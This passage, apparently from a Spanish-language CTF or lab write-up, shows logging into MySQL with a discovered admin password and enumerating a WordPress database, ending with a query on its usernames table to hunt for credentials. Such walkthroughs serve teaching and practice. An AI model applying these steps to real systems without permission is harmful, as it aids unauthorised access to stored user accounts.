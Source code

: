 Como vemos, tenemos un usuario y contraseña, por lo que veremos la base de datos para ver si encontramos una contraseña. Para conectarnos simplemente ejecutamos:

```css
mysql -u admin --password=rooteable
```

Una vez dentro ejecutaremos esto:

```css
show databases;
```

esto nos mostrará las bases de datos, en nuestro caso tenemos estas:

```css
+--------------------+
| Database           |
+--------------------+
| information_schema |
| performance_schema |
| wordpress          |
+--------------------+
```

la única que nos puede interesar es la de wordpress, por lo que ahora ejecutaremos `use wordpress`. Ahora que seleccionamos la base de datos, ejecutaremos:

```css
show tables;
```

esto nos mostrará las tablas de la base de datos:

```css
+-----------------------+
| Tables_in_wordpress   |
+-----------------------+
| wp_commentmeta        |
| wp_comments           |
| wp_links              |
| wp_options            |
| wp_postmeta           |
| wp_posts              |
| wp_term_relationships |
| wp_term_taxonomy      |
| wp_termmeta           |
| wp_terms              |
| wp_usermeta           |
| wp_usernames          |
| wp_users              |
| wp_wpfm_backup        |
+-----------------------+
```

y ahora ejecutamos:

```css
select*from wp_usernames;
```
